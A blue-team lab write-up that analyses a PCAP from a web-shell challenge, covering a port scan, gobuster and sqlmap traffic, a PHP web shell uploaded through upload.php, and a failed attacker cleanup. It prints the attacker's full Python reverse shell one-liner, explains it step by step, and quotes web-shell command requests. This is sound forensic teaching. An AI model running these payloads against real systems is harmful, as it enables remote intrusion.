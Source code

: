 ```yaml
---
draft: false
author: ladybuginthemug
title: Network Analysis – Web Shell
description: The SOC received an alert in their SIEM for ‘Local to Local Port Scanning’ where an internal private IP began scanning another internal system. 
date: 2024-01-06
category:
  - blueteamlabs
---
```


[Network Analysis – Web Shell
](https://blueteamlabs.online/home/challenge/network-analysis-web-shell-d4d3a2821b)

>Scenario
>
>The SOC received an alert in their SIEM for ‘Local to Local Port Scanning’ where an internal private IP began scanning another internal system. Can you investigate and determine if this activity is malicious or not? You have been provided a PCAP, investigate using any tools you wish.

My usual approach is to move back and forth from general statistics to a close-up investigation of streams. 

#### PORT SCANNING 

So I would start with **Statistics** -> **Endpoints** -> **TCP**.  By sorting ports we can instantly identify port incrementation which is an indication of the port scanning.

![ports-last](https://github.com/ladybuginthemug/ladybuginthemug.github.io/assets/88084724/64ed0c5d-ed6f-4bb3-ad10-a3d81182d0c5)


The stream reveals that `10.251.96.4` is the IP responsible for conducting the `TCP SYN` port scan activity in the port range of `1-1024`

![TCPSYNscan](https://github.com/ladybuginthemug/ladybuginthemug.github.io/assets/88084724/5c3f9638-fb2e-40e2-af00-aaf537610f87)


Surly enough we would be able to find more automation tools around. Simple search for user agents with `tshark` :

```
└─$ tshark -r BTLOPortScan.pcap -Y "http.user_agent" -T fields -e http.user_agent | sort -u
Apache/2.4.29 (Ubuntu) (internal dummy connection)
gobuster/3.0.1
Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.146 Safari/537.36
Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
sqlmap/1.4.7#stable (http://sqlmap.org)

```
It will reveal the tools used which are `Gobuster 3.0.1`


![gobuster](https://github.com/ladybuginthemug/ladybuginthemug.github.io/assets/88084724/c2578128-05ad-4ecb-be9d-5fc636077665)


and `sqlmap 1.4.7`


![sql](https://github.com/ladybuginthemug/ladybuginthemug.github.io/assets/88084724/12fab041-a8b6-46f6-a133-08a75a89bd0b)


---
#### FILE UPLOAD

**Export objects** -> **HTTP** 

![upload](https://github.com/ladybuginthemug/ladybuginthemug.github.io/assets/88084724/71bdf96f-fb65-420e-af04-7efa4d6273e1)

The attacker used `editprofile.php` to upload a web shell `dbfunctions.php`:  

```
"16102","2021-02-07 16:40:39.693318843","10.251.96.4","10.251.96.5","HTTP","1087","POST /upload.php HTTP/1.1  (application/x-php)"
"16106","2021-02-07 16:40:43.892078780","10.251.96.4","10.251.96.5","HTTP","433","GET /uploads/ HTTP/1.1 "
"16110","2021-02-07 16:40:43.925237417","10.251.96.4","10.251.96.5","HTTP","401","GET /icons/unknown.gif HTTP/1.1 "
"16115","2021-02-07 16:40:43.928118120","10.251.96.4","10.251.96.5","HTTP","400","GET /icons/image2.gif HTTP/1.1 "
"16121","2021-02-07 16:40:45.168306955","10.251.96.4","10.251.96.5","HTTP","486","GET /uploads/dbfunctions.php HTTP/1.1 "
```
![webshell](https://github.com/ladybuginthemug/ladybuginthemug.github.io/assets/88084724/49fdf490-a307-4820-a55d-1164ebff6bc9)

`GET /uploads/ HTTP/1.1` and response `HTTP/1.1 200 OK` with HTML of a simple directory listing page generated by an Apache web server - confirmed it :

```
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
 <head>
....  processed HTML content ....

Title: Index of /uploads

Main Heading: Index of /uploads

[PARENTDIR]	Parent Directory	  -	 
	dbfunctions.php	2021-02-07 16:40	116	 
	myphoto.png	2021-02-07 16:38	7.1K	

Apache/2.4.29 (Ubuntu) Server at 10.251.96.5 Port 80

```

We can spot the first commands used in the web shell :

```
"16134","2021-02-07 16:40:51.125681644","10.251.96.4","10.251.96.5","HTTP","455","GET /uploads/dbfunctions.php?cmd=id HTTP/1.1 "
"16144","2021-02-07 16:40:56.263731727","10.251.96.4","10.251.96.5","HTTP","459","GET /uploads/dbfunctions.php?cmd=whoami HTTP/1.1 "
"16201","2021-02-07 16:42:35.675646891","10.251.96.4","10.251.96.5","HTTP","706","GET /uploads/dbfunctions.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.251.96.4%22,4422));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27 HTTP/1.1 "
```

The last request is trying to exploit a vulnerability in the server by injecting a TCP-based Python reverse shell with connection to the specified IP and port in the following steps:

- Imports the socket, subprocess, and os modules.
```
python -c import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
```
- Creates a socket and connects to the IP address 10.251.96.4 on port 4422.
```
s.connect(("10.251.96.4",4422));
```
- Duplicates the socket's file descriptor to the standard input (0), standard output (1), and standard error (2).
```
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);
```
- When the code executes /bin/sh the shell inherits the redirections and communicates with the remote user via the socket 

```
p=subprocess.call(["/bin/sh","-i"]);
```

---

#### SHELL CONNECTION

![shell-python](https://github.com/ladybuginthemug/ladybuginthemug.github.io/assets/88084724/52058542-85ec-48c7-b96f-916ca5739572)


Following tcp stream on port 4422, we can confirm that the reverse shell connection is established. 

The attempts to escalate privileges appear to have been made by executing commands such as `python -c 'import pty; pty.spawn("/bin/bash")'` and `bash -i`. These commands are commonly used to attempt to gain a more interactive shell or elevate privileges.
However, there is no explicit indication in the log that these privilege escalation attempts were successful. The user continues to operate with the same username `www-data` and there are no indications of a change in privileges or access to restricted areas of the file system.
Not only that but also a malicious actor was not even able to clean up trails he left behind in the form of `dbfuncs.php`:

```
addcart.php  common.php     consts.php	 editprofile.php  info.php   upload.php
browse.php   complaint.php  dbfuncs.php  index.php	  login.php  uploads
www-data@bob-appserver:/var/www/html$ rrmm  ddbb	funcs.php 

rm: cannot remove 'dbfuncs.php': Operation not permitted
www-data@bob-appserver:/var/www/html$ llss

```

